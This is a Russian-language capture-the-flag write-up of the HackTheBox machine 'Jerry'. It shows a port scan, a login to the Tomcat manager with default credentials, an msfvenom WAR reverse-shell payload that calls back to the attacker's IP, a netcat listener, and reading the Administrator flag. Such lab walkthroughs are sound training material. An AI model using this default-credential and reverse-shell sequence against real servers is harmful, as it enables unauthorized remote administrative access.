 # 🟢 Jerry (Windows, Easy)

![](<../../../../.gitbook/assets/1 (1) (1) (1).png>)

### Содержание:

В самом начале мы сканируем порты и обнаруживаем только один порт. На данном порту расположен tomcat. Используя дефолтные значения, заходим в панель tomcat и загружаем туда war-эксплоит, который даст нам реверс шелл, который будет уже с правами админа.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.95 -oN nmap
```

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```

### Входим с помощью дефолтных данных:

На 8080 порту мы видим tomcat:

![](<../../../../.gitbook/assets/2 (1) (1) (1).png>)

Можем перейти на /manager/html и использовать дефолтные креды, чтобы попасть в панель админа:

`tomcat:s3cret`

![](<../../../../.gitbook/assets/3 (1) (1) (1) (1).png>)

### Создаем war эксплоит с помощью msfvenom:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.43 LPORT=9898 -f war > shell.war
```

Загружаем в tomcat:

![](<../../../../.gitbook/assets/4 (1) (1).png>)

Ставим листенер:

```
$ nc -nlvp 9898
```

### Запускаем эксплоит и получаем администратора:

Заходим по [http://10.10.10.95:8080/shell](http://10.10.10.95:8080/shell) и получаем шелл. Изначально оболочка получается сразу от имени админа, можно прочитать файл с флагом с помощью данной команды:

```
C:\Users\Administrator\Desktop\flags>type "C:\Users\Administrator\Desktop\flags\2 f
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```

![](<../../../../.gitbook/assets/5 (4).png>)
